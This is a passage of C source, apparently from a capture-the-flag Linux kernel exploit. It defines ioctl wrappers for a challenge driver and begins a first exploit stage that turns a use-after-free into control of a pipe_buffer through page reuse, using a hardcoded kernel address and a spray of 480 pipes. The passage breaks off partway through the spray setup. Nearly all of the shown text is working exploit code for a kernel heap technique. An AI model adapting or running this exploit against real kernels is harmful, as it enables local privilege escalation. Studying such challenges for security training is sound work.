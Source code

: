 ```c
};

struct pipe_buf_operations {
    int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
    void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
    int (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
    int (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};

/**
 * II - interface to interact with challenge
 */

#define MAX_BOOK_NR 0x20
#define MAX_PAGE_BOOK_NR 0x20
#define PAPER_SZ 2048

int bookshelf[MAX_BOOK_NR];

#define CMD_CHOOSE_BOOK 0x114
#define CMD_SET_PAGE    0x514
#define CMD_DELETE_PAGE 0x1919810

long choose_book(int fd, size_t idx)
{
    return ioctl(fd, CMD_CHOOSE_BOOK, idx);
}

long set_page(int fd, size_t idx)
{
    return ioctl(fd, CMD_SET_PAGE, idx);
}

long delete_page(int fd, size_t idx)
{
    return ioctl(fd, CMD_DELETE_PAGE, idx);
}

/**
 *  III - FIRST exploit stage: transfer UAF to pipe_buffer by page reuse
*/

#define ANON_PIPE_OPS 0xffffffff8241ccc8

#define PIPE_SPRAY_NR 480

int book_idx = -1, page_idx = -1;
int pipe_fd[PIPE_SPRAY_NR][2], orig_idx = -1, victim_idx = -1;

struct pipe_buf_operations *pipe_ops;
size_t page_leak;

void prepare_pipe(void)
{
    puts("[*] Prepare pipe...");

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        if (pipe(pipe_fd[i]) < 0) {
            printf("[x] FAILED to create %d pipe!\n", i);
            err_exit("FAILED to allocate pipe.");
        }
    }

```